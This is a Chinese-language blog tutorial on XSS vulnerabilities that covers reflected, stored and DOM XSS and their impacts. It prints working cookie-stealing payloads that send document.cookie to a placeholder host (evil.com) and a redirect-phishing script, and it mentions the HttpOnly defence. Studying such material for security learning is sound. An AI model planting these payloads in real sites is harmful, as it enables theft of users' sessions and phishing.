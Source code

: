 ```yaml
---
title: XSS学习系列Chapter 2：漏洞原理
date: 2019-03-11 09:42:09
tags:
categories: WEB漏洞学习
---
```


## 一、概述

### 0x00 什么是XSS漏洞？

> XSS，即跨站脚本（Cross Site Script），是由于网站对用户输入过滤不严而造成的漏洞。攻击者可以通过提交恶意JS代码，把恶意的脚本代码注入到网页之中，当其他用户浏览这些带有恶意代码的网页时就会执行其中的恶意代码导致被攻击。

<!-- more -->

### 0x01 XSS分类

**1.反射型XSS**

> 只是简单地把用户输入的数据”反射”给浏览器，攻击时需要诱骗用户点击恶意链接，也叫”非持久型XSS”。

**2.存储型XSS**

> 会把用户输入的数据”存储”在服务器端，也叫”持久性XSS”。常见于留言板、博客文章等可以提交并展示用户输入内容的功能点。

**3.DOM XSS**

> 与前两种的主要区别在于，DOM XSS是不与服务端交互的，触发XSS靠的只是客户端DOM解析，DOM XSS是在浏览器的解析中改变页面DOM树，且恶意代码并不在返回页面源码中回显。

### 0x02 XSS特点

1. 是一种攻击客户端的漏洞，而不是攻击服务器的漏洞。
2. 反射型XSS与存储型XSS都先与服务器交互后返回，DOM XSS是不需要服务器参与的。

### 0x03 XSS危害

> 理论上，只要是JavaScript脚本能做的功能，XSS Payload都能做到。

- 窃取Cookie
- 钓鱼攻击
- 网页篡改、挂马
- DoS攻击
- XSS传播蠕虫
- 发起指定的GET/POST请求
- 结合CSRF漏洞进行攻击
- ......

## 二、XSS漏洞利用

### 0x00 窃取Cookie

**1.前瞻知识**

- `document.cookie`可以获取到当前用户在当前网站的Cookie值。
- `escape()`函数用于构建合理的URL（对给定的URL进行URL编码使其符合规定）。

**2.漏洞利用脚本：**

```
var img = document.createElement('img'); 
img.src='http://www.evil.com/no.php?'+escape(document.cookie);
document.body.appendChild(img);
```

脚本原理：创建一个用于请求图片的`<img>`标签，该标签会向`src`属性指定的URL发起一次GET请求，我们让其`src`向我们的服务器发起一次GET并且让其携带Cookie作为参数。若脚本被加载并执行成功，我们通过查看我们的服务器`access.log`日志就能看到Cookie。也可以编写一个页面来接收Payload发送的Cookie参数。

**3.其他漏洞利用代码：**

- `<img src="http://www.evil.com?cookie='+document.cookie"></img>`
- `<script>new Image().src="http://www.evil.com?cookie="+document.cookie;</script>`

**4.窃取其他信息**

- `navigator.userAgent`读取客户端UA。

**5.防御**

在Set-Cookie时设置Http-Only标识，设置后将不允许JavaScript读取Cookie。

### 0x01 钓鱼攻击

**1.重定向钓鱼**

> `<script>document.location.href="http://www.evil.com"</script>`

**2.iframe**

通过JavaScript来添加一个新的`<iframe>`标签嵌入第三方域的内容(钓鱼网页)，此时主页面仍处于正常页面下，具有极高的迷惑性。

### 0x02 其他利用

参考链接：

http://wps2015.org/2016/12/12/usually-used-xss-code/

https://bbs.ichunqiu.com/thread-25578-1-1.html?from=sec

## 三、XSS Check Cheatsheet

http://momomoxiaoxi.com/2017/10/10/XSS/

https://github.com/s0md3v/AwesomeXSS